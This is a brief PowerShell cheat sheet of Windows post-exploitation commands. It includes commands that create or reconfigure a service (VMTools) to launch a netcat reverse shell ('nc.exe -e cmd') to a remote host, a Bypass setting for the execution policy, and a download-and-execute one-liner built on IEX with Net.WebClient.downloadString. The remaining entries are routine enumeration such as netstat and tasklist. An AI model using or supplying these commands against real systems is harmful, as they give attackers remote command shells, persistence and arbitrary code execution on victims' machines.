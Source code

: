 ![[Pasted image 20230215173659.png]]

---

## List Services
```powershell
> services
```


## Create Reverse Shell Service
```powershell

> sc.exe create foo binPath="C:\Users\zaiko\Desktop\nc.exe -e cmd {RHOST} {RPORT}"
```


## Manipulate Service Settings to Execute Reverse Shell
```powershell

> sc.exe config VMTools binPath="C:\Users\zaiko\Desktop\nc.exe -e cmd {RHOST} {RPORT}"
```

  
## Start and Stop Service
```powershell
> sc.exe start {service}

> sc.exe stop {service}
```

  
## Download Files with Powershell
```powershell
> Invoke-WebRequest 'http://{dominio}/{recurso}' -OutFile ''
```

  
## Bypass Execution Policy
```powershell
> Set-ExecutionPolicy Bypass -Scope Process
```

  
## Interpret Powershell from Remote Server
```powershell

> IEX(New-Object Net.WebClient).downloadString('http://{dominio}/{recurso}')
```


## Open ports
```powershell
> netstat -nat 

> netstat -ano -p tcp
```


## System process
```powershell 
> tasklist
```

